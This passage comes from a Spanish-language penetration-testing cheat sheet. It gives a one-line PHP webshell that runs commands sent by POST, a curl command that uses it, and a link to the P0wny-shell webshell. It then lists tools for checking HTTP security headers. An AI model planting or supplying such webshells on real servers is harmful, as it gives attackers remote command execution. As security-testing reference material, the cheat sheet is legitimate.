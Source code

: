 + Puedes encontrar shells más complejas en la carpeta [reverse-shells](./reverse-shells/)

### Webshells

#### PHP POST param
~~~php
# archivo.php
<?=`$_POST[0]`?>

# Uso
curl http://localhost/ruta/archivo.php -d "0=whoami"
~~~

#### P0wny-shell
+ https://github.com/flozz/p0wny-shell/blob/master/shell.php



************************************************************************************************
# Secure Headers

## shcheck
+ https://github.com/santoru/shcheck

~~~bash
# Descarga
git clone https://github.com/santoru/shcheck.git

./shcheck.py https://site.com
~~~

## shcheckfile

~~~bash
# Requerimientos
git clone https://github.com/santoru/shcheck && cd shcheck
sudo cp shcheck.py /usr/local/bin/

# Descarga de la herramienta
git clone https://github.com/elcaza/shcheckfile.git
cd shcheckfile
./shcheckfile file.txt

~~~

************************************************************************************************
# SSL
## Herramientas
